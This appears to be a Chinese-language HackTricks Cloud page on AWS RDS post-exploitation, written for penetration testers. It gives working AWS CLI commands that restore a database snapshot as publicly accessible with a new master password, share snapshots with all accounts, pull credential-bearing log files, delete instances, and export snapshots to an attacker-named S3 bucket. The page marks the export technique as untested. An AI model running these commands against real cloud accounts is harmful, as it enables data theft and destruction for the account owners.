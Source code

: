 # AWS - RDS Post Exploitation

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来\*\*分享您的黑客技巧。

</details>

## RDS

更多信息请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

如果攻击者拥有足够的权限，他可以通过创建数据库的快照，然后从快照中创建一个公开可访问的数据库，使得**数据库公开可访问**。

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

拥有这些权限的攻击者可以**创建数据库的快照**并将其设置为**公开**可用。然后，他可以在自己的账户中使用该快照创建数据库。

如果攻击者**没有`rds:CreateDBSnapshot`权限**，他仍然可以将**其他**已创建的快照设置为**公开**。

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```

### `rds:DownloadDBLogFilePortion`

拥有 `rds:DownloadDBLogFilePortion` 权限的攻击者可以**下载 RDS 实例日志文件的部分内容**。如果敏感数据或访问凭证不慎被记录，攻击者可能利用这些信息提升权限或执行未授权操作。

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**潜在影响**：使用泄露的凭证访问敏感信息或进行未授权的操作。

### `rds:DeleteDBInstance`

拥有这些权限的攻击者可以**对现有RDS实例进行DoS攻击**。

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**潜在影响**：删除现有的RDS实例，可能导致数据丢失。

### `rds:StartExportTask`

{% hint style="info" %}
待办：测试
{% endhint %}

拥有此权限的攻击者可以**将RDS实例快照导出到S3桶**。如果攻击者控制了目标S3桶，他们可能访问导出快照中的敏感数据。

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}
